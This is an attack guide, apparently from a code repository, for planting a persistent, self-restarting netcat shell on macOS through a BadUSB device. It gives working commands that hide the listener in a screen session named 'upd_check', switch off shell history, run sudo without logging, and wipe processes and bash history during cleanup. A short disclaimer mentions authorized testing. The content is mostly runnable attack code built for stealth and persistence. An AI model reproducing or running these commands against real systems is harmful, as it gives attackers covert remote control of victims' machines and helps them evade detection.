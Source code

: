 # **Mac Endless Reverse Shell**

### **This guide is for educational purposes or authorized security testing only. Unauthorized access to computer systems is illegal and unethical.**

Interactive reverse shell on MacOS systems, leveraging **`nc`** (netcat). This approach is designed for stealth and efficiency, avoiding reliance on Python or any other non-standard tools on the target machine. Follow these steps carefully to maintain control over the target system discreetly.

## **Setup Instructions**

---

### **1. Establishing the Reverse Shell on the Target Machine via BadUSB**

**Objective:** Start a reverse shell listener on the target machine as a background process using **`screen`**.

Not used in the BadUSB script but good to have.

- **Initial Command:** This sets up a continuous loop that listens for incoming connections on port 9123, handling signals to clean up and exit gracefully if needed.

`screen -dmS upd_check bash -ic "unset HISTFILE; set +o history; trap 'rm -f /tmp/f; screen -S background_process -X quit; kill -SIGINT $$' EXIT; while true; do rm /tmp/f || true; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 9123 >/tmp/f; [ -f /tmp/terminate ] && break || true; sleep 1; done"` 

The BadUSB Payload:

- **Enhanced Command:** Improves upon the initial setup by attempting to re-establish the reverse shell every 5 minutes, ensuring connectivity even if the session is disrupted.

`screen -dmS upd_check bash -ic 'unset HISTFILE; set +o history; trap "rm -f /tmp/f; screen -S background_process -X quit; killall nc 2>/dev/null; kill -SIGINT $$" EXIT; while true; do rm /tmp/f || true; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 9123 >/tmp/f & sleep 300; pkill -f "nc -l 9123" 2>/dev/null && ps aux | awk "/bash -i/ && !/awk/ {print \$2}" | xargs kill -9; if [ -f /tmp/terminate ]; then break; fi; done'`

---

### **2. Configuring the Attacker's Machine**

**Objective:** Secure the reverse shell connection and prevent accidental disconnections.

- **Disable accidental interrupts:** Prevents the use of Ctrl+C from terminating the shell.

`stty intr ''  # Disable Ctrl+C`

- **Restore interrupt key:** Re-enables Ctrl+C functionality when needed.

`stty intr ^C # To reset`

- **Connecting:** Utilize **`rlwrap`** for a better shell experience when connecting to the target.

`rlwrap -r nc [TARGET_IP] 9123`

---

### **3. Managing the Session on the Victim's Machine**

**Objective:** Maintain stealth and control within the session.

- **Standard Shell Environment:** Enhances the shell for command execution without leaving history.
    
    `script -q /dev/null bash` and then `unset HISTFILE; set +o history && export PS1='\u@\h:\w\$'`
    
- **Executing Privileged Commands:** Executes commands as **`sudo`** without logging.
    
    `unset HISTFILE; set +o history && echo "password" | sudo -S whoami` 
    
- **Root Access:** After Switching to root execute this for not logging the commands.
    
    `unset HISTFILE`
    

---

### **4. Cleanup on the Victim Machine**

**Objective:** Remove traces of the reverse shell session and terminate gracefully.

- **Command for cleanup processes that are related to reverse shell:**

`nohup bash -c 'screen -S upd_check -X quit; sleep 3; screen -wipe; pkill -f "nc -l 9123"; ps aux | grep "[b]ash -i" | grep -v grep | awk "{print \$2}" | xargs -r kill -9; rm -f /tmp/f; rm -f ~/.bash_history' > /dev/null 2>&1 &`

- **Verification:** Confirm that all related processes are terminated and no listeners are active.

`ps aux | grep bash`

`screen -list`

`lsof -i :9123`

---

### **Important Note:**

When using the **`script`** command to enhance the shell environment, there's a risk of leaving the reverse shell process in a suspended state if the session exits unexpectedly. This can occur because the **`script`** command initiates a new shell session for logging purposes, and if this session is not properly terminated (for instance, due to a network disconnection or closing the terminal without exiting the **`script`** session), the underlying process may continue to run without the ability to reconnect. To mitigate this risk and ensure the ability to reconnect, it's crucial to exit the **`script`** session using the **`exit`** command before ending your reverse shell session. This ensures that all processes are terminated properly and the shell is left in a state that allows for future connections.

For the clarification on the **`screen`** command and how the enhanced command improves reliability:

### **Clarification on `screen` Command:**

The enhanced **`screen`** command offers a significant improvement over the initial setup by incorporating a mechanism to automatically attempt re-establishment of the reverse shell connection every 5 minutes. This approach is particularly useful in scenarios where the reverse shell might be disrupted due to network instability or if the initial connection is accidentally closed. By using a loop that periodically kills the existing **`nc`** (netcat) listener and starts a new one, the command ensures that the attacker can regain access to the target machine without needing to re-deploy the payload. This auto-reconnect feature makes the reverse shell more resilient to disconnections and enhances its persistence on the target machine, ensuring that temporary disruptions do not permanently sever the attacker's access.

### ***This procedure is designed for operational discretion and effectiveness. Ensure you have authorized access to the system before attempting this setup.***
